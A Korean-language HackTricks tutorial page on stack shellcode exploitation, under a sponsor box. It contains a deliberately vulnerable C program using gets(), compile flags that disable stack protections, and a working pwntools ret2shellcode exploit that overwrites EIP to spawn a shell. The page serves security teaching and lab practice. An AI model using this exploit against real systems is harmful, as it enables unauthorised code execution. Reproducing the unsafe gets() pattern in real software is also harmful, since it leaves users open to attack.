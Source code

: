 # 스택 쉘코드

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

**스택 쉘코드**는 **바이너리 익스플로잇**에서 사용되는 기술로, 공격자가 취약한 프로그램의 스택에 쉘코드를 작성하고 **명령어 포인터 (IP)** 또는 **확장된 명령어 포인터 (EIP)**를 이 쉘코드의 위치를 가리키도록 수정하여 실행시키는 것입니다. 이는 무단 액세스를 얻거나 대상 시스템에서 임의의 명령을 실행하는 데 사용되는 고전적인 방법입니다. 여기에는 간단한 C 예제와 **pwntools**를 사용하여 해당 취약점을 이용하는 방법을 설명하고 있습니다.

### C 예제: 취약한 프로그램

간단한 취약한 C 프로그램 예제부터 시작해보겠습니다:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
이 프로그램은 `gets()` 함수 사용으로 버퍼 오버플로우에 취약합니다.

### 컴파일

취약한 환경을 시뮬레이션하기 위해 다양한 보호 기능을 비활성화하면서 이 프로그램을 컴파일하려면 다음 명령을 사용할 수 있습니다:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: 스택 보호 기능을 비활성화합니다.
* `-z execstack`: 스택을 실행 가능하게 만들어줍니다. 이는 스택에 저장된 셸코드를 실행하는 데 필요합니다.
* `-no-pie`: 위치 독립 실행 파일을 비활성화하여 셸코드가 위치할 메모리 주소를 예측하기 쉽게 합니다.
* `-m32`: 프로그램을 32비트 실행 파일로 컴파일합니다. 종종 exploit 개발의 간편함을 위해 사용됩니다.

### Pwntools를 사용한 Python Exploit

다음은 **pwntools**를 사용하여 **ret2shellcode** 공격을 수행하는 Python exploit을 작성하는 방법입니다:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
이 스크립트는 **NOP 슬라이드**, **쉘코드**, 그리고 **EIP**를 NOP 슬라이드를 가리키는 주소로 덮어쓰면서 쉘코드가 실행되도록 페이로드를 구성합니다.

**NOP 슬라이드** (`asm('nop')`)는 실행이 정확한 주소에 관계없이 쉘코드로 "슬라이딩"될 가능성을 높이기 위해 사용됩니다. `p32()` 인자를 버퍼의 시작 주소에 오프셋을 더한 값으로 조정하여 NOP 슬라이드에 도달하도록 합니다.

## 보호 기능

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/)은 실행마다 신뢰할 수 있는 주소를 위해 **비활성화**되어야 합니다. 그렇지 않으면 함수가 저장될 주소가 항상 동일하지 않을 수 있고, 이를 알아내기 위해 유출이 필요할 수 있습니다.
* [**스택 카나리**](../common-binary-protections-and-bypasses/stack-canaries/)도 비활성화되어야 합니다. 그렇지 않으면 침해된 EIP 반환 주소가 결코 따라가지 않을 수 있습니다.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **스택** 보호는 스택 내부의 쉘코드 실행을 방지할 수 있습니다. 해당 영역은 실행할 수 없기 때문입니다.

## 다른 예제 및 참고 자료

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64비트, 스택 주소 유출과 ASLR, 쉘코드 작성 및 실행
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32비트, 스택 유출과 ASLR, 쉘코드 작성 및 실행
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32비트, 스택 유출과 ASLR, exit() 호출 방지를 위한 비교, 변수 덮어쓰기 및 쉘코드 작성 및 실행
